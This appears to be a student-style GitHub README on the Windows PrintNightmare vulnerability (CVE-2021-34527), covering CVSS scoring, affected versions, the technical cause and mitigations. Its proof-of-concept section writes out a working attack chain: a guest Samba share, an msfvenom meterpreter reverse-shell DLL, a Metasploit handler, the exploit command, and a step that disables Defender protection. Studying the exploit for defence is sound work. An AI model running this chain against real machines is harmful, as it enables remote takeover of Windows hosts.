

Here's the README in plain text format, word for word:

---

# PrintNightmare (CVE-2021-34527) Vulnerability Analysis and Mitigation

## Table of Contents
1. [CVE](#cve)
2. [CVSS](#cvss)
    - [Base Score Metrics](#base-score-metrics)
    - [Temporal Score Metrics](#temporal-score-metrics)
    - [Environmental Score Metrics](#environmental-score-metrics)
3. [PrintNightmare](#printnightmare)
    - [Technical Details](#technical-details)
    - [Vulnerable Analysis](#vulnerable-analysis)
4. [Proof of Concept](#proof-of-concept)
5. [Mitigation](#mitigation)
6. [Conclusion](#conclusion)
7. [References](#references)

## 1. CVE
CVE stands for Common Vulnerabilities and Exposures. The CVE program is a system created by MITRE in 1999. It assigns unique IDs to all vulnerabilities and flaws found, storing entries in a publicly available online database.

## 2. CVSS
CVSS (Common Vulnerability Scoring System) is a metric for scoring the severity of a CVE. It uses a series of measurements created by the National Infrastructure Advisory Council (NIAC). The current version is 3.1, which includes Base, Temporal, and Environmental sub-metrics.


### 2.1 Base Score Metrics
These metrics are assigned to the CVE from the start and do not change over time. They are used to calculate the base score.


#### Values
- **Attack Vector (AV)**
    - Network (N): 0.85
    - Adjacent (A): 0.62
    - Local (L): 0.55
    - Physical (P): 0.2
- **Attack Complexity (AC)**
    - Low (L): 0.77
    - High (H): 0.44
- **Privileges Required (PR)**
    - None (N): 0.85
    - Low (L): 0.62 (0.68 if Scope is Changed)
    - High (H): 0.27 (0.5 if Scope is changed)
- **User Interaction (UI)**
    - None (N): 0.85
    - Required (R): 0.62
- **Scope (S)**
    - Unchanged (U)
    - Changed (C)
- **Confidentiality (C)**
    - High (H): 0.56
    - Low (L): 0.22
    - None (N): 0
- **Integrity (I)**
    - High (H): 0.56
    - Low (L): 0.22
    - None (N): 0
- **Availability (A)**
    - High (H): 0.56
    - Low (L): 0.22
    - None (N): 0

#### Calculation
- ISS = 1 – [(1 - Confidentiality) * (1 - Integrity) * (1 - Availability)]
- Impact: 
    - If scope = unchanged: 6.42 * ISS
    - If scope = changed: 7.52 * (ISS - 0.029) - 3.25 * (ISS - 0.02)^15
- Exploitability = 8.22 * AttackVector * AttackComplexity * PrivilegesRequired * UserInteraction
- Base Score: 
    - If impact <= 0, base score is 0
    - If scope is Unchanged, Round up (Minimum [(Impact + Exploitability), 10])
    - If scope is changed, Round up (Minimum [1.08 * (Impact + Exploitability), 10])

### 2.2 Temporal Score Metrics
These metrics define the stage of the CVE.

#### Values
- **Exploit Code Maturity (E)**
    - Not Defined (X): 1
    - High (H): 1
    - Functional (F): 0.97
    - Proof-of-Concept (P): 0.94
    - Unproven (U): 0.91
- **Remediation Level (RL)**
    - Not Defined (X): 1
    - Unavailable (U): 1
    - Workaround (W): 0.97
    - Temporary Fix (T): 0.96
    - Official Fix (O): 0.95
- **Report Confidence (RC)**
    - Not Defined (X): 1
    - Confirmed (C): 1
    - Reasonable (R): 0.96
    - Unknown (U): 0.92

#### Calculation
- TemporalScore = Roundup (BaseScore × ExploitCodeMaturity × RemediationLevel × ReportConfidence)

### 2.3 Environmental Score Metrics
These metrics are customized depending on the organization and include 3 new values.

#### Values
- **Confidentiality Requirement (CR)**
- **Integrity Requirement (IR)**
- **Availability Requirement (AR)**
    - Not Defined (X): 1
    - High (H): 1.5
    - Medium (M): 1
    - Low (L): 0.5

#### Calculation
- MISS = Minimum (1 - [(1 - ConfidentialityRequirement * ModifiedConfidentiality) * (1 - IntegrityRequirement * ModifiedIntegrity) * (1 - AvailabilityRequirement * ModifiedAvailability)], 0.915)
- ModifiedImpact:
    - If ModifiedScope is Unchanged: 6.42 * MISS
    - If ModifiedScope is changed: 7.52 * MISS – 0.0029) -3.24 * (MISS * 0.9731 – 0.02)^13
- ModifiedExplotability = 8.22 * ModifiedAttackVector * ModifiedAttackComplexity * ModifiedPrivilegesRequired * ModifiedUserInteraction
- EnvironmentalScore:
    - If ModifiedImpact <= 0, EnvironmentalScore is 0
    - If ModifiedScope is Unchanged, Roundup (Roundup [Minimum ([ModifiedImpact + ModifiedExploitability], 10)] * ExploitCodeMaturity * RemediationLevel * ReportConfidence)
    - If ModifiedScope is Changed, Roundup (Roundup [Minimum (1.08 * [ModifiedImpact + ModifiedExploitability], 10)] * ExploitCodeMaturity * RemediationLevel * ReportConfidence)

## 3. PrintNightmare

### 3.1 Technical Details
#### Overview
Print Nightmare is an attack that leverages on the print spooler service in windows. A normal user can use it to create new drivers which allows attackers to run remote code execution. The attack is very dangerous as Print Spooler is built into windows and enabled by default so many companies will leave it open, and all Windows versions that is running print spooler is open to this attack . There were two variants, one permitting remote code execution (CVE-2021-34527), and the other leading to privilege escalation (CVE-2021-1675).

#### CVSS
- **Base Score:** 8.8 (High)
- **Impact Score:** 5.9
- **Exploitable Score:** 2.8
- **Metrics:**
    - Attack Vector: Network
    - Attack Complexity: Low
    - Privileges Required: Low
    - User Interaction: None
    - Scope: Unchanged
    - Confidentiality: High
    - Integrity: High
    - Availability: High

#### Calculations
To calculate this, first find ISS
ISS = 1 – [(1 – 0.56) * (1 – 0.56) * (1 – 0.56)]  = 0.914816
Since scope is unchanged, 
Impact = 6.42 * 0.914816 = 5.87311872, rounded up to 5.9
Exploitability = 8.22 * 0.85 * 0.77 * 0.62 * 0.85 = 2.83525473, rounded down to 2.8
Base Score = Minimum [(5.9 + 2.8), 10] = 8.8


#### Scope
Affected Windows versions include:
- Windows Server 2008 SP2 (32-bit & x64)
- Windows Server 2008 R2 SP1 (x64)
- Windows Server 2012
- Windows Server 2012 R2
- Windows Server 2016
- Windows Server 2019
- Windows Server versions 1909, 2004 & 20H2
- Windows 7 SP1 (32-bit & x64)
- Windows 8.1 (32-bit & x64)
- Windows RT 8.1
- Windows 10 (32-bit & x64)
- Windows 10, version 1607 (32-bit & x64)
- Windows 10, versions 1809, 1909, 2004, 20H2 & 21H1 (32-bit, ARM64 & x64)
- Windows 11

#### Timeline


#### Identification
A system is susceptible to PrintNightmare if any version of SMB and spoolsv.exe is running.

#### Checking Services
```powershell
Get-Service –Name Spooler
Start-Service -Name Spooler
```


Use get-smbserverconfiguration to check if smb is turned on

```powershell
Get-SmbServerConfiguration

```


If it is not turned on use 
```powershell
set-smbserverconfiguration -enablesmb1protocol:true
set-smbserverconfiguration -enablesmb2protocol:true
```
##### Note that the window defender can detect the dll that will be used later which mean that will be blocked therefore real time protection needs to be toggled off

### nmap scan


### 3.2 Vulnerable Analysis
At first it was discovered as a local privilege but then found out that it is susceptible to remote code execution. It leverages on two parameters in RpcAddPrinterDriverEx() as they could be run by a normal user as administrator, allowing a remote user to load a driver dll to the victim. Later, another protocol, RpcAsyncAddPrinterDriver() is also vulnerable in the same way allowing remote users to load the drivers remotely and the latter is less constrained in an attack 

## 4. Proof of Concept


**Backup and Configure Samba**
```bash
cp /etc/samba/smb.conf /etc/samba/smb.conf.bak
rm /etc/samba/smb.conf
sudo nano /etc/samba/smb.conf
```
```bash
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[public]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```


**Craft Payload**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.204.129 LPORT=4444 -f dll -o evil.dll
```


**Install and Launch SMB Server**
```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
python3 smbserver.py share ~/PrintNightmare-CVE-2021-34527/ -smb2supp
```
 <br />
 <br />
 <br />


**Setup Metasploit**
```bash
sudo msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
```
### Set LHOST and LPORT


**Start Exploit**
### Run the exploit by https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527

```bash
sudo python3 CVE-2021-34527.py WORKGROUP/student:”student”@192.168.204.130 '\\192.168.204.139\share\evil.dll'
```



## 5. Mitigation

### 1. **Block Inbound Connectivity Using Firewall**
##### Blocking inbound connectivity to the Print Spooler service through a firewall is a proactive measure to mitigate the PrintNightmare vulnerability. By restricting access to the network ports used by the Print Spooler service, unauthorized external access can be significantly reduced. To implement this, start by identifying the ports commonly used by the Print Spooler service, such as port 445 (SMB) and port 135 (RPC). Next, configure firewall rules to block incoming traffic to these ports, particularly from untrusted networks. For example, in Windows Firewall, you can create a new inbound rule that targets these ports and blocks the connection. It is essential to apply this rule to all network profiles (Domain, Private, Public) to ensure comprehensive protection. Once the rules are in place, conduct thorough testing to ensure legitimate network operations are not disrupted and use network monitoring tools to track any attempts to access the blocked ports, ensuring compliance with the new security measures. This method provides immediate protection by reducing the attack surface, though it requires careful configuration to avoid disrupting necessary services and may be complex in extensive network environments.

### 2. **Disable Spooler Service**
##### Disabling the Print Spooler service is an effective measure to mitigate the PrintNightmare vulnerability, along with other associated risks such as local privilege escalation (LPE) exploits and the "Printer Bug." We strongly recommend implementing a Group Policy Object (GPO) to enforce the disabling of the Print Spooler service on both existing and newly created machines that do not require printing functionality.
```powershell
Stop-Service -Name Spooler -Force
Set-Service -Name Spooler -StartupType Disabled
```

### 3. **Disable Inbound Remote Printing Through Group Policy**
##### Disabling inbound remote printing via Group Policy is a centralized approach to managing Print Spooler service settings across all systems in a Windows domain, thus effectively mitigating the PrintNightmare vulnerability. Begin by launching the Group Policy Management Console (GPMC) on a domain controller. Create a new Group Policy Object (GPO) or edit an existing one that applies to the target Organizational Units (OUs). Disable policy setting "Allow Print Spooler to accept client connections". Link the GPO to the relevant OUs and force a Group Policy update on the target systems using the command gpupdate /force. This method ensures consistent application of security settings across multiple systems, providing scalable protection. However, it requires a properly configured Active Directory environment and might take time to propagate across all systems.

### 4. **Install Security Updates**
##### Applying the latest security updates from Microsoft is a crucial step in mitigating the PrintNightmare vulnerability. Microsoft periodically releases patches to address security flaws, including those related to the Print Spooler service. Regularly check for updates using Windows Update or a centralized update management solution like WSUS (Windows Server Update Services). To manually initiate the update process, go to Windows Update in the Settings menu or use the command wuauclt /detectnow /updatenow in an administrative command prompt. After installing the updates, verify that they have been correctly applied by checking the update history for the specific patch addressing PrintNightmare. This approach directly mitigates the vulnerability as provided by the vendor, ensuring the system is up-to-date with the latest security improvements. However, installing updates may require system reboots, which should be planned to minimize disruption. Additionally, some updates might cause compatibility issues with legacy systems or applications, necessitating thorough testing before deployment.

##### Update Print and Point (KB5005652)
##### Print and Point, according to Microsoft, “Point and Print refers to the capability of allowing a user to create a connection to a remote printer without providing disks or other installation media. All necessary files and configuration information are automatically downloaded from the print server to the client.” It does so by calling the AddPrinterConnection function which downloads Driver-associated and queue-associated files from the print server.
##### Released on August 10, 2021, which requires administrative privileges to install drivers. This change mitigates the risk in all windows devices, including devices that do not use Point and Print functionality. 
##### By Default, non-administrator users will no longer be able to install new printers on remote computer or servers and update existing printer drivers from remote computer or servers.
##### This update set the default behavior of registry key RestrictDriverInstallationToAdministrators to 1 when the key is not defined or not present. This will require the administrator to install the driver when using Point and Print. This registry key will override all Point and print Restrictions Group policy settings and only allow administrators to install printer drivers from a print server.

## 6. Conclusion
The PrintNightmare vulnerability (CVE-2021-34527) exposed critical weaknesses in the Windows Print Spooler service, allowing both local privilege escalation and remote code execution. This vulnerability highlights the urgent need for timely security updates and robust configuration management. Some mitigation strategies include disabling the Print Spooler service when unnecessary, blocking inbound connectivity through firewalls, and applying Microsoft's security patches. By understanding the CVSS metrics and implementing best practices in vulnerability management, organizations can significantly reduce the risks associated with such vulnerabilities and enhance their overall security posture.

## 7. References
- [Microsoft Security Response Center](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [NIST NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-34527)
- [Github Cube0x0](https://github.com/cube0x0)
- [Mitre ATT&CK](https://attack.mitre.org/)
- [CVSS Calculator](https://www.first.org/cvss/calculator/3.1)

---
